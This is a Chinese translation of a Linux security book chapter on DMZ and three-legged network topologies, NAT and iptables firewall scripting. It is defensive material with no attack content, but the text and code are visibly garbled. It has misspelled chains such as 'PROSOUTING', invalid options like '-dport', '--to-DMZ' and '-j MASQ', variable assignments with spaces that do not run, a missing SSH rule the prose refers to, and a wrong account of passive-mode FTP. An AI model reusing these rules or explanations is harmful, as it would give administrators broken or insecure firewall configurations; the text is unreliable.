通常与端口转发配合使用。`SNAT`（源地址转换）是目前常见的 `NAT` 形式，用于允许局域网（`LAN`）内部（使用私有地址）的主机访问外部网络（通常是互联网）；`DNAT`（目标地址转换）对于通过单一 `IP` 地址向外界服务的网络更有用，因为它允许入站连接透明地转发到局域网内部主机。

如你所见，`NAT` 提供了安全性增强，使工作站免受入站连接尝试的影响；如果这些用户中的一个不小心感染了木马程序，攻击者将无法为被感染的机器建立入站连接。然而，网络仍然存在弱点，即 `NAT`/路由器机器以及任何入站连接将转发到的服务器。如果这些机器中的任何一台被攻破，攻击者就可以嗅听局域网其余部分的数据，并直接连接到外部网络无法路由的工作站。因此，尽管 `NAT` 有助于保护局域网内部的客户端，但它对提高边界安全没有帮助。

# DMZ 区

逻辑上的步骤是通过创建一个非军事化区（`DMZ`），将工作站与提供外部服务的机器隔离开。虽然你不希望你的 Web 服务器被攻破，但你知道这可能会发生，因此你需要确保在最坏的情况下，攻击者能造成的损害是有限的。我们建议的拓扑结构如图 3.7 所示。



图 3.7 三脚拓扑。

# 安全拓扑结构 87

机器 `A` 是一个组合 `Linux` 网关/路由器/防火墙，这次有三个网络接口而不是通常的两个。内部局域网被分为两部分，两部分之间传输的数据包必须通过机器 `A`。这为我们提供了额外的保护层，因为我们可以在两者之间进行包过滤。这种拓扑结构被称为三网口主机。

值得注意的是，我们区分了纯内部服务器（如 `SMB/NFS` 文件服务器和 `NIS` 服务器）与可以从内部或外部访问的 Web、`FTP`、`DNS` 和邮件服务器。没有理由让这些内部服务器被外部世界访问，因此我们将它们放置在局域网的非 `DMZ` 区域，以通过防止外部访问来提高安全性。

# 三脚模型

从财务角度来看，将所有外部服务运行在单台机器上有意义的，这可以降低硬件成本；但从安全角度来看，这是最糟糕的设置。在组合服务器场景中，如果攻击者进入了你的 `DNS`、Web 服务器和邮件服务器；如果服务分散在单独的机器上，例如，一个有利的漏洞会导致 `DNS` 服务器被攻破。一旦在 `DMZ` 中获得立脚点，熟练的黑客最终可能会路由运行其中的其他服务器，但给他一条平坦的大路是没有意义的。

同样，你可能决定将内部服务器分散到几台机器上。这方面的安全优势在这里并不明显，但这样做的主要原因是分担负载并根据每台机器的任务对其进行定制。例如，文件服务器需要几块大硬盘（最好通过 `IDE` [集成驱动器电子设备] 通道），而 `MySQL` 服务器将受益于大量的内存和一个较小的 `SCSI`（小型计算机系统接口）磁盘。

在本章中，我们通常假设每个外部服务都运行在单独的箱子上（尽管我们意识到从财务角度来看这种方法可能并不可行）。但是，如果你选择不采用这种方法，相应调整 `Iptables` 规则集应该是相对直接的。

# 可扩展性

图 3.7 所示的内部局域网非常基础，但如果需要可以轻松扩展。我们不会在这个话题上花费过长时间，但几点值得提及。

集线器或交换机可以级联到主交换机 `B` 以增加连接的设备数量。通过将高优先级机器直接连接到主交换机，并强制低优先级工作站通过集线器共享对主交换机的访问，也可以实现基础的带宽控制。

如果财务限制使你无法在整个网络上使用千兆以太网，应优先考虑 `DMZ`、`A` 与 `B` 之间的连接，以及内部服务器与 `B` 之间的连接，因为这些部分的流量将最大。

不要诱于在内部局域网和 `DMZ` 之间创建第二条连接来提高速度。这不仅违背了三网口防火墙/路由器的目的，如果不小心，它还会产生路由问题。

内部局域网上的所有机器都通过交换机 `B` 和防火墙/路由器 `A` 连接到互联网。在工作站上使用拨号调制器违背了三网口主机的目的（这也很奇怪，因为推测局域网是通过比拨号好一点的东西连接到互联网的）。

同样，机器 `A` 应该是所有进入局域网的流量必须经过点。允许局域网内部机器进行拨入访问再次违背了在安全防火墙方面付出的努力。

目前，防火墙/路由器机器代表了网络上的单点故障：如果这台机器故障，所有的连接（私有局域网内客户端之间的连接外）都将中断。特别是，没有主机可以访问互联网，互联网流量无法到达 `DMZ`。如果你有备用机器，你几乎应该为防火墙/路由器上的硬盘创建备份镜像，以防硬件故障。

在较大的网络中，通常会添加冗余以防止某些设备停机，但这增加了拓扑结构和路由表的复杂性。必须小心防止路由环路。

# AP 放置

为了简单起见，我们描述了一个不包含无线接入的网络模型；然而，无线接入正日益流行，应该花精力考虑无线接入点（`AP`）的放置，因为这会对 `WLAN` 的安全性产生巨大影响。考虑到进入网络的连接是不可的，你不应该将 `AP` 无保护地放在局域网内部；相反，将其放在 `DMZ` 内，尽管这需要修改防火墙规则，我们将在下一章讨论这个话题。

# 安全拓扑结构 89

## 3.2 深入 IPTABLES

在 `Linux` `2.4` 和 `2.6` 中，包过滤功能由 `Iptables` 框架提供，它是 `Linux` `2.2` 中 `Ipchains` 的继任者。如果你有 `Ipchains` 经验，学习 `Iptables` 应该是简单的，尽管语法上有很大差异，而且你会发现 `Iptables` 功能强大。除了我们在第五章“使用 `Iptables` 进行包过滤”中详细介绍的内容，`Iptables` 还提供了 `DNAT/SNAT` 和端口转发框架，我们将涉及这些。

### 准备

许多 `Linux` 发行版默认安装了 `Iptables`；但如果你没有，可以从 `http://www.netfilter.org` 下载用户空间包。此外，在安装此包之前，你必须编译 `Linux` 内核以支持 `Iptables`。有关如何编译内核的说明以及与包过滤/管理和 `NAT` 相关的所有内核配置选项的详细列表，请参考书后的附录。

### Patch-O-Matic

`Iables` 在不断进化，许多新功能尚未纳入主流 `Linux` 内核，主要是因为它们仍然被认为是实验性的且存在 Bug。这些扩展对于运行 `Iptables` 并不是必不可少的；相反，它们提供了深受资深防火墙管理员感兴趣的特殊匹配功能（我们将在本章晚些时候回顾一些有趣的特性）。这些功能以一系列内核补丁的形式发布，统称为 Patch-O-Matic (`pom`)，从 Netfilter 网站 (`http://www.netfilter.org`) 获取。

### 安装

以下是安装 `Iptables` 的步骤：

- 1. 在其目录内通过以下命令运行 `POM`：

```bash
```


# KERNEL_DIR=<kernel directory> ./runme pending

# Linux 网络安全

1. 重新配置并编译内核。
2. 编译 Iptables 用户工具。该软件包没有配置脚本，因此不需要 `.configure` 步骤；但是，在构建时，你必须指定内核的路径：

```bash
$ make KERNEL_DIR=<kernel directory>
# make install KERNEL_DIR=<kernel directory>
```

`Iptables` 由一组规则表组成，每个表处理数据包处理的不同方面；我们有用于数据包过滤的 `filter`（过滤）表、用于网络地址转换的 `NAT` 表，以及用于非 `NAT` 类型修改和重写数据包的 `mangle`（扭结）表。这些是作为模块形式实现的三个默认表，并根据需要自动加载。在数据包传输过程的不同阶段，它将通过所有这三个表。

我们将在第 5 章更深入地讨论 `filter` 和 `mangle` 表，因此现在我们将重点集中在 `NAT` 表上。`NAT` 表具有用于实现以下内容的模块：

- `SNAT`
- `DNAT`
- `MASQUERADE`
- `REDIRECT`

你已经学习了 `SNAT` 和 `DNAT`。`REDIRECT` 是指定数据包应转发到本地主机的简写方式。这乍看可能并不特别有用，但在未来的章节中你会看到它的许多微妙的用途。

在 Linux 2.2 中，`MASQUERADE` 是 `NAT` 的通用术语，而在 `Iptables` 中它有了更精确的含义：具体来说，它用于在使用动态 IP 地址时实现源 `NAT` 或目的 `NAT`（即 ISP 每次连接时都会从池中为你分配不同的 IP 地址）。使用动态 IP 进行 `MASQUERADE` 需要更多的开销，但这意味着你不需要将外部接口的 IP 地址硬编码到防火墙规则集中。这对于拨号连接非常有用，但对于 `XDSL` 用户来说，其优势并不明显。宽带用户的 IP 地址通常是“半静态的”。虽然标记为动态的，但用户在连接时通常会被重新分配相同的地址，因此在几个月内可能拥有相同的 IP。遗憾的是，此类用户无法对重新分配相同地址做出任何假设，甚至无法预知 IP 何时会更改，在本章中我们将统一使用 `MASQUERADE`。

# 安全拓扑 91

表本身被划分为 `chains`（链），每个链都允许你在数据包通过内核的特定阶段对数据进行操作。在 `NAT` 表中，有三个内置链：

- `PREROUTING`: 该链在设备对数据包做出路由决定之前捕获通过设备的数据包，通常用于执行 `DNAT`。
- `OUTPUT`: 允许你在路由决策发生之前对本地生成的数据包进行操作。
- `POSTROUTING`: 如其所示，该链用于在路由决策之后对数据包进行操作，是执行 `SNAT` 的理想位置。

除了这些之外，还可以使用用户自定义链来创建自定义规则集。链中规则的执行是从上到下进行的；因此，规则定义的顺序非常重要。如果链中的某条规则匹配数据包，则应用指定的 `target`（例如 `DROP`）；否则，继续执行，直到数据包到达链的末尾。如果数据包到达表的末尾，则对其应用默认策略。
`NAT` 和端口转发紧密相关，在 `Ipchains` 中它们被合并为一条规则。然而，`Iptables` 对此进行了明确的区分，每个功能实现在独立的表中：用于网络地址转换的 `NAT` 表和用于端口转发的 `filter` 表中的 `FORWARD`（转发）链。事实上，端口转发——根据目标端口将入站连接尝试转发到防火墙后的主机的过程（例如，将目标端口为 `80/TCP` 的入站数据包转发到 `DMZ` 内部的 Web 服务器）实际上只是 `NAT` 的特殊情况。

# 数据包的生命周期

根据数据包的源和地，它将通过 `Iptables` 中的许多表和链。
当数据包的目标是本地系统时，在数据包递交到应用程序之前，会进行如下处理。进入本地系统的入包通过的表和链顺序如下：

1. 数据包由硬件（例如网卡）接收并传递给内核。
2. 数据包进入 `mangle` 表的 `PREROUTING` 链。
3. 数据包进入 `NAT` 表的 `PREROUTING` 链。
4. 内核现在使用路由表来做决策。
5. 数据包进入 `mangle` 表的 `INPUT` 链。
6. 在路由决策后，在 `filter` 表的 `INPUT` 链中进行过滤。
7. 内核将数据包递交给相应的应用程序（例如，浏览器）。

注意，在路由决策后，在 `filter` 表中进行过滤。对于由本地主机生成的输出包，顺序有所不同。如果数据包的目标是远程主机，顺序如下：

1. 本地应用程序生成数据包。内核根据目标做出决策。
2. 数据包进入 `mangle` 表的 `OUTPUT` 链。
3. 数据包进入 `NAT` 表的 `OUTPUT` 链。
4. 数据包进入 `filter` 表的 `OUTPUT` 链。
5. 数据包进入 `mangle` 表的 `POSTROUTING` 链。
6. 数据包进入 `NAT` 表的 `POSTROUTING` 链。
7. 内核将数据包递交给网卡（`NIC`）。

最后的情况是数据包既不是源自本地主机，而是被转发的。绝大多数流量将通过以下链：

1. 数据包到达接口并传递给内核。
2. 数据包进入 `mangle` 表的 `PREROUTING` 链。
3. 数据包进入 `NAT` 表的 `PREROUTING` 链。
4. 内核做出决策。
5. 数据包进入 `mangle` 表的 `FORWARD` 链。
6. 数据包进入 `NAT` 表的 `FORWARD` 链。
7. 数据包进入 `filter` 表的 `FORWARD` 链。

重要的是，目标为本地主机的数据包首先通过 `NAT` 表中的 `PREROUTING` 链，数据包的节点地址可能会改变。如果发生这种情况，数据包现在被转发，执行切换到用于数据包转发的链。应该记住，与 `INPUT` 和 `OUTPUT` 链（分别处理进入和离开网络的数据包）不同，通过 `FORWARD` 链的数据包可能是双向流动的。

### 使用 iptables

规则在用户空间通过 `iptables` 命令创建。我们不会浪费空间去详细介绍该命令的所有选项，因为它们在手册页中（`man iptables`）有详细记录；相反，我们将专注于启用 `NAT` 和端口转发所需的规则。虽然 `iptables` 工具可以直接从命令行运行，但首选方法是创建一个包含 `iptables` 命令的脚本，然后执行它。这样做有两个优点：管理规则更容易，且防火墙规则集的执行是原子的（即一次性完成）。如果你打算通过 `SSH` 会话远程管理防火墙，这至关重要。常见的防火墙方法是开始阻塞所有流量，然后选择性地允许。如果你通过在命令行手动输入这些命令，`SSH` 连接将在规则输入过程中中断，你会被锁在外面。

# Linux 网络安全

```bash
*nat
:OUTPUT ACCEPT [321954:19322914]
-A PROSOUTING -o eth1 -j MASQUERADE
-A PROSOUTING -o eth1 -j MASQUERADE
COMMIT

# Completed on Tue Jun 1 13:17:30 2004
# Generated by iptables-save v1.2.7a on Tue Jun 1 13:17:30 2004

*filter
:INPUT ACCEPT [17257469:13232747626]
:FORWARD ACCEPT [20271:17224941]
:OUTPUT ACCEPT [16390351:2634157597]
-A FORWARD -i eth0 -j ACCEPT
COMMIT

# Completed on Tue Jun 1 13:17:30 2004
```

要加载此格式的规则集，请使用 `iptables-restore`，这次通过文件重定向输入：

```bash
# iptables-restore < firewall.save
```


这种方法大大加快了处理速度，但缺乏活性。除非你非常确定自己在做什么，否则不应手动编辑此类方式生成的规则集转储。我们建议在最初创建和测试防火墙时使用`shell`脚本；在创建了满意的规则集后，可以使用`iptables-save`保存该规则集，并在启动时使用`iptables-restore`恢复它。

由于所涉及的时间仍然较短，除非你的规则集特别大（超过几百条），否则我们建议使用`shell`脚本方法。在创建了满意的规则集后，你需要一种方法在启动时自动加载它。防火墙/路由器机器的大部分时间都处于第 3 级（多用户、联网，但没有`X11`），因此在基于`System V`的发行版中，应该在`/etc/rc.d/rc3.d`目录下创建一个指向防火墙脚本的符号链接。防火墙脚本本身存储在何处取决于你，但我们建议将其放在`/etc/rc.init.d/`与其他`init`脚本一起，或者放在`/usr/local/etc`，以反映它是本地添加的配置文件，而不是核心发行版的一部分。

## 通用语法

由于`Iptables`提供的灵活性，很难给出一个单行的骨架语法，就像对待`httpd`守护进程那样。然而，通用的描述如下：

### `iptables -t <TABLE NAME> <COMMANDS> -j <TARGET>`

- `-t`指定我们正在操作的表名（`filter`、`nat`或`mangle`）。如果省略此选项，则假设使用`filter`表。接下来的命令用于操作表内部的链（chains）。这些最常见的命令有：
  - `-A <chain> <rules>`: 向链中追加一条规则，例如：
    ```bash
    iptables -t filter -A INPUT -p tcp --dport 111 -j DROP
    ```
    （拒绝到端口 111 的入站`TCP`连接）。注意，规则添加的顺序很重要。数据包匹配是从链的顶部向下进行的，新规则被添加到底部。
  - `-D <chain> <chain position> | <rule>`: 从链中删除一条规则。可以通过其数字位置指定规则，例如：
    ```bash
    iptables -D INPUT 7
    ```
    或者通过提供规则：
    ```bash
    iptables -D INPUT -p tcp --dport 111 -j DROP
    ```
    如果规则在链中出现多次，则只删除其第一个实例。
  - `-L [<chain>]`: 列出链中的所有规则。如果没有给出链，则列出所有链：
    ```bash
    # iptables INPUT (policy ACCEPT)

    target prot opt source destination

    Chain FORWARD (policy ACCEPT)

    target prot opt source destination

    ACCEPT all - anywhere anywhere

    ACCEPT all - anywhere anywhere

    Chain OUTPUT (policy ACCEPT)

    target prot opt source destination
    ```
    与其他`Iptables`命令一样，默认假设使用`filter`表。
    要查看其他表上的链，请使用`-t`选项。在这里看到它用于显示`NAT`表中`PREROUTING`链的规则：
    ```bash
    # iptables -L PREROUTING -t nat

    Chain PRERUTING (policy ACCEPT)

    target prot opt destination \

    DNAT tcp anywhere anywhere \

    tcp dpt:http to:192.168.1.20 \

    DNAT tcp anywhere anywhere \

    tcp dpt:https to:192.168.1.20 \

    DNAT tcp anywhere anywhere \

    tcp dpt:smtp to:192.168.1.20
    ```
    默认情况下，`Iptables`会尝试将`IP`地址查找为主机名，这会显著减慢列表输出。此行为可以通过`-n`选项禁用。
  - `-F <chain>`: 清空选定的链（如果给出，则清空表中的所有链）。与`-L`一样，可以通过`-t`选项指定操作表。通常在防火墙规则集脚本开始时清空表，因为现有规则可能会与脚本中的规则相互作用。
  - `-P <chain> <target>`: 为内置链设置默认策略，当链中没有规则匹配时适用。在添加规则时，还要指定目标——要执行的操作。

  最重要的目标有：
  - `ACCEPT`: 允许数据包。
  - `REJECT`: 拒绝数据包并发送`ICMP`错误消息。
  - `DROP`: 丢弃数据包而不发送任何响应。
  - `LOG`: 记录数据包。

## 拒绝还是丢弃

拒绝还是丢弃是一个争议的话题。如果你拒绝，发送者将收到一个`ICMP`错误消息，这对调试很有帮助。如果你丢弃，发送者将一直等待超时，这在安全性方面可能更好，因为没有泄露端口是关闭的。

在许多情况下，丢弃是首选方法，特别是对于外部接口而言。然而，如果你想告知客户端连接被拒绝，那么拒绝是合适的方法。

### 安全拓扑 99

初始设置非常耗时，且起初使用起来可能会令人沮丧——即使是环回流量最初也会被拦截。但这无疑是最安全的方法，从长远来看，实际上的工作量反而更少。出于这些原因，我们将默认使用所有安全策略。

## 状态规则匹配

你可能在提到`Iptables`时听过“状态检测”（stateful）防火墙一词；但这到底意味着什么，为什么它被认为是一件好事？到目前为止，我们看到的过滤是基于数据包的；我们检查源和目的地址端口，并根据这些信息判断是否允许通过包以及将其路由到何处。

`Iptables`提供的`state`模块通过为我们提供包所处的上下文增强了这一点：例如，一个源端口为`53`的入站`UDP`数据报是`DNS`请求的响应，还是一个未经请求的（可能是恶意的）数据包？状态机通过跟踪每一个连接以及连接所处的状态来执行此操作。四个有效状态为：

- `NEW`（新建）：连接尝试。之前没有见过任何与此相关的数据包。
- `ESTABLISHED`（已建立）：连接已建立；即数据包已在两个方向流动。
- `RELATED`（相关）：数据包与已建立的连接相关。一个常见的例子是`ICMP`消息，它们可能在连接过程中创建，但不被视为连接的一部分。
- `INVALID`（无效）：数据包无法识别。通常直接丢弃这些包最好。

连接跟踪（connection tracking）的概念在`TCP`背景下是完全合理的，因为`TCP`本身是一种面向连接的协议；但`UDP`呢？`UDP`数据报是在没有任何建立连接的情况下发送的。在这些情况下，状态实际上实际上微调了对“连接”的定义，将其扩展到适用于任何数据包序列。因此，响应`ICMP`回显请求（`ping`）的`ICMP`回显应答被视为“连接”的一部分，并被标记为已建立——前提是它来自我们发送回显请求的主机，并且在合理的时间间隔内到达。此类“连接”通常被称为**伪连接**（pseudoconnections）。

你可以通过使用`Iptables`中的`-m`选项来应用状态匹配，这会导致`state`模块被加载并使用。例如：

```bash
iptables -A FORWARD -i <external interface> \
-o <internal interface> \
-d <webserver IP> -dport 80 -m state -j ACCEPT \
-state NEW,ESTABLISHED,RELATED
```

你可能已经注意到这条规则存在一个潜在问题。人们倾向于认为`NEW`类别等同于`TCP` `SYN`包，但实际上，任何类型的数据包只要它不是已建立连接的一部分，都可以被视为`NEW`这种。这通常是不符合预期的行为，但我们可以使用`Iptables`标志位匹配来检查它：

```bash
iptables -A FORWARD -p tcp ! -syn -m state -state NEW -j DROP
```

这种状态匹配的优点应该是显而易见的；遗憾的是，它是有代价的。每个被跟踪的连接都需要内存——根据`Netfilter`网站的说明，需要`350`字节的不可交换内核内存；这相当于每兆兆内存少于`3,000`个连接。内存价格每个月波动很大；因此，这种用途是一个严重的问题，还是一个微不足道的副作用，取决于当前的市场状况。

为了避免繁忙防火墙上的连接跟踪耗尽所有系统内存，限制了跟踪连接的最大数量，默认值由系统内存量决定。你可以通过检查`/proc`中的相应条目来查看此：

```bash
$ cat /proc/sys/net/ipv4/ip_conntrack_max

3960
```

这台特定的机器有`60 MB RAM`。如果连接跟踪表满了，新的连接尝试将挂起（对于许多应用程序来说，第一个远程“连接”是`DNS`查询），并且错误信息将写入`syslog`，格式如下：

```bash
ip_conntrack: maximum limit of XXX entries exceeded
```


在上面的示例中，`3,960` 个连接代表了 `60` MB 可用内存中的约 `3.7` MB；因此，只要防火墙机器上没有运行内存密集型程序，将此值翻倍（如有必要）不应该引起任何问题：

```
echo "7920" > /proc/sys/net/ipv4/ip_conntrack_max
```

## 安全拓扑 101

然而，你仍然应该定期监控你的日志文件，寻找关于连接跟踪表满的警告。如果发生这种情况，请将 `ip_conntrack_max` 增加几千，然后观察其几天的行为。如果问题仍然存在，重复此过程；最终，你将为系统添加更多 RAM。如果 `ip_conntrack_max` 的值需要设置得特别高，它可能是局域网内存在异常或不受欢迎的应用程序（许多 P2P 文件共享客户端会产生大量的连接尝试）的信号。使用 `tcpdump` 等数据包嗅探器监控流量可能是一个好主意。

## 辅助模块（Helper Modules）

NAT 和连接跟踪对于单端口协议运行良好，但对于更复杂的协议如 `ICQ`、`H323`（视频会议）以及 `FTP`。`FTP` 是常用的服务之一，为了理解这个问题，我们首先需要仔细观察它的工作原理。当你连接到 `FTP` 服务器时，会在特权端口和服务器的 `21` 端口之间形成 `TCP` 连接。这是发布命令的连接，被称为会话。文件传输是在其他数据会话中进行的，但可以是主动的或被动的。

在主动模式下，`FTP` 客户端向服务器发送要连接的地址和端口（顺便说，没有检查这是否与会话中的相同），服务器连接并传输数据（如图 3.8 所示）。

![d90c7093221fd01adff07e1ff1120_png]
图 3.8 主动连接

在被动模式下，客户端指示服务器连接到哪个端口。`20/TCP` 用于这些数据会话的源端口。图 3.9 展示了这种模式。

![d90c7093221fd01adff07e1ff1121_png]
图 3.9 被动连接

步骤 1 与之前相同：客户端与服务器建立会话。请求文件时，这次客户端选择服务器连接的地址和端口（步骤 2）。在步骤 3 中，服务器连接到该地址和端口，建立数据连接。

NAT 和连接跟踪的问题在于，这些信息包含在通过会话发送的数据包的负载中，因此如果不检查这些数据包的内容，防火墙无法得知例如，高端口的入站连接尝试与防火墙后尝试以主动模式传输数据的 `FTP` 客户端有关。

简单的解决方案是指示用户将 `FTP` 客户端设置为被动连接到远程服务器，并通知连接到 `DMZ` 中 `FTP` 服务器的用户必须使用主动模式；但这远不是一个万无一失的解决方案。

`Netfilter` 包带来一组辅助模块，用于协商如 `FTP` 等复杂的协议。假设这些协议已编译为模块（如果它们已编译到内核中，则你不需要执行 `modprobe` 命令），加载它们只需使用 `modprobe` 命令。记住，NAT 和连接跟踪是两个完全不同的东西，因此为了让协议跨越防火墙正常运行，每个功能都需要一个辅助模块：

# 安全拓扑 103

```bash
/sbin/modprobe ip_conntrack_ftp
/sbin/modprobe ip_nat_ftp
```

在加载 `ip_conntrack_ftp` 模块后，`FTP` 数据将被标记为 `RELATED`，允许你在 `Iptables` 规则中对其进行匹配。

对于某些较不常用的协议，你可能需要使用 `POM` 工具对内核进行补丁并重新编译。该脚本包含了一系列内核补丁，旨在为 Linux 内核添加功能或修复微小错误。但请注意，这些补丁中的某些仍然处于实验性阶段，这也是它们未包含在标准内核中的主要原因之一。要启用各种连接跟踪/NAT 辅助模块，所需的配置选项列表可以在附录 B“网络类的内核配置选项”中找到。

# 3.3 实现三脚模型

本节将解释三脚模型的实现方法：首先通过讨论在网络中正确路由流量所需的 `Iptables` 规则，随后通过探索提高安全性和性能的方法。在本节过程中开发的完整脚本可以在附录 C“NAT 防火墙脚本”中找到，也包含在随附的 CD-ROM 中，文件名为 `nat.sh`。


# 防火墙规则集

图 3.10 再次显示了我们的建议 LAN 拓扑，这次添加了 IP 地址和接口名称。在查看如何在 `Iptables` 中实现它们之前，让我们为该模型定义一些通用规则：

- 从私有 LAN 发往 Internet 的数据包应被转发到 `eth0`（我们的外部接口）。源地址也应重写为我们的外部 IP。
- 对这些数据包的响应应转发到 `eth1`（我们的 LAN 接口），并将其目的地址重写为正确的内部 IP 地址。
- 从私有 LAN 发往 DMZ 的数据包应转发到 `eth2`。发往 DMZ 的包不需要 NAT，因为它也使用私有地址。
- 从 DMZ 发往私有 LAN 的数据包应转发到 `eth1`。同样，不需要 NAT。
- 从 DMZ 发往 Internet 的数据包应通过 `eth0` 出出，并将源地址从私有 DMZ IP 重写为我们的公共 IP。
- 对这些数据包的响应应重写目的地址并转发到 DMZ 中正确的机器。
- 端口 `80` 和 `443` 上的入站 `TCP` 连接请求（`SYN` 包）应转发到 DMZ Web 服务器。
- 端口 `53` 的入站 `TCP` 和 `UDP` 连接应转发到 DMZ DNS 服务器。
- 端口 `25` 的入站 `TCP` 连接应转发到 DMZ 邮件服务器。



**图 3.10** 三脚 LAN 拓扑。

为了方便起见，我们在防火墙脚本顶部定义了一些变量：

- `IF_LAN`: 防火墙上连接到私有 LAN 的接口。
- `IF_DMZ`: 连接到 DMZ 的防火墙接口。
- `IF_EXT`: 连接到外部世界的外部接口。
- `IP_LAN`: LAN 接口的 IP 地址。
- `IP_DMZ`: DMZ 接口的 IP 地址。
- `DMZ_HTTP`: DMZ Web 服务器的 IP 地址。
- `DMZ_DNS`: DMZ DNS 服务器的 IP 地址。
- `DMZ_MAIL`: DMZ 邮件服务器的 IP 地址。
- `IPT`: `Iptables` 二进制文件的位置。

这些变量可以通过在前面加上 `$` 符号在防火墙脚本中使用。到目前为止，我们的防火墙脚本如下：

```bash
IF_LAN = "eth1"
IF_DMZ = "eth2"
IF_EXT = "eth0"
IP_LAN = "192.168.1.1"
IP_DMZ = "192.168.0.1"
DMZ_HTTP = "192.168.0.3"
DMZ_DNS = "192.168.0.2"
DMZ_MAIL = "192.168.0.4"
```

```bash
## iptables 二进制文件的具体路径在不同的 Linux 发行版之间不同。
IPT = "/usr/local/sbin/iptables"
```

```bash
## 启用 IP 转发
echo "1" > /proc/sys/net/ipv4/ip_forward
```

```bash
## 启用动态 IP
echo "1" > /proc/sys/net/ipv4/ip_dynaddr
```

```bash
## 加载辅助模块
/sbin/modprobe ip_nat_ftp
/sbin/modprobe ip_conntrack_ftp
```

```bash
$IPT -flush
$IPT -t nat -flush
$IPT -t mangle -flush
```

```bash
## 默认链策略
$IPT -P INPUT DROP
$IPT -P OUTPUT DROP
$IPT -P FORWARD DROP
```

```bash
### 允许回环流量
$IPT -A INPUT -i lo -j ACCEPT
$IPT -A OUTPUT -o lo -j ACCEPT
```

### 私有 LAN

接下来，我们需要为尝试访问 Internet 的内部流量启用 `SNAT`：

```bash
$IPT -t nat -A POSTROUTING -o $IF_EXT -j MASQ
```

允许所有流量流出 LAN：

```bash
$IPT -A FORWARD -i $IF_LAN -o $IF_EXT -m state \
    --state NEW,ESTABLISHED,RELATED -j ACCEPT

$IPT -A OUTPUT -m state \
    --state NEW,ESTABLISHED,RELATED -j ACCEPT
```

只有属于已建立连接（与之相关）的数据包允许进入 LAN：

```bash
$IPT -A FORWARD -i $IF_EXT -o $IF_LAN -m state \
    --state ESTABLISHED,RELATED -j ACCEPT
```


### 安全拓扑 109

`$IPT -A INPUT -m state \`

```
$IPT -A INPUT -m state \
    --state ESTABLISHED,RELATED -j ACCEPT
```

我们需要为 `DMZ` 区域启用 `DNAT`：

```bash
$IPT -t nat -A PREROUTING -p tcp -i $IF_EXT --dport 80 -j DNAT --to-DMZ
```

```bash
$IPT -t nat -A PREROUTING -p tcp -i $IF_EXT --dport 443 -j DNAT --to-DMZ
```

```bash
$IPT -t nat -A PREROUTING -p udp -i $IF_EXT --dport 53 -j DNAT --to-DMZ
```

这并不是在防火墙上设置弱密码的借口，因为基于地址的访问本身是有缺陷的，但它应该阻止用户访问防火墙的随机尝试。当然，你可能在之后决定禁用它——使防火墙只能从控制台访问——但目前，远程 `SSH` 还是相当有用的。

### 流量路由

现在我们已经使用 `Iptables` 配置了数据包在网络中的路由方式，最后一步是处理内核层面的某些路由问题。我们将查看如何操作内核路由表，并讨论源路由的危险。

### 默认网关

在我们建议的拓扑中，局域网（包括私有和 `DMZ` 部分）上每台机器的默认网关都是路由器/防火墙机器。对于私有局域网内的客户端，防火墙的地址是 `192.168.1.1`；对于 `DMZ` 中的服务器，它是 `192.168.0.1`。为了让局域网内的机器相互通信，它们必须配置此网关。

在 `Linux` 和 `Unix` 系统中，使用 `route` 命令来查看和操作如下输出中的路由表（为了简洁省略了详细信息）：

```
 #route
Kernel IP routing table
Destination Gateway Genmask Flags Iface
localnet * 255.255.255.0 U eth1
loopback * 255.0.0.0 U lo
default 192.168.0.1 0.0.0.0 UG eth1
```

可以通过执行命令 `route add default gw <ip address>` 来设置默认网关。例如，

```
route add default gw 192.168.0.1
```

用于 `DMZ` 内的机器。要使这些路由条目持久化（以便在重启后依然存在），只需将命令（s）添加到 `/etc/rc.local` 中。如果你的系统使用 `/etc/sysconfig` 方法存储系统配置（如 `Redhat`、`SuSE` 等），你可能更想要修改 `/etc/sysconfig/network-scripts/ifup`，这样每当接口启动时都会添加该路由。

### 源路由

通常，主机发送数据包时并不关心它们通往目的地的路径，乐意将此任务交给更适合决策的中间路由设备；尽管如此，主机偶尔确实想要指定路径，`IP` 以一种包含主机想要采取的路径的头部形式为这种源路由提供了支持。在严格源路由（`SSR`）中，整个路径都是被指定的；但最常见的形式是松散源记录路由（`LSRR`），在这种情况下，发送者只给出数据包应该经过的一些跳数（hops），允许网络设备决定其他跳数。还应该注意，当使用源路由时，接收方预计沿相同的路由发送回复。

源路由很少是必不可少的。它的主要用途是排查网络问题，但偶尔也用于提高性能（除非你有一个非常特殊的网络拓扑，否则没有必要：路由设备可以很好地处理）。源路由的危险之处在于，攻击者可以滥用它试图强制数据流经过攻击者控制的路由器，从而允许他嗅探数据。根据边界/防火墙的配置，攻击者可能还可以访问局域网内部具有内部（私有）`IP` 地址的主机——这些机器从互联网是无法路由的。正因如此，源路由已被废弃，许多防火墙和路由器被配置为丢弃源路由数据包。

## 3.4 使用 /proc 文件系统进行网络调整

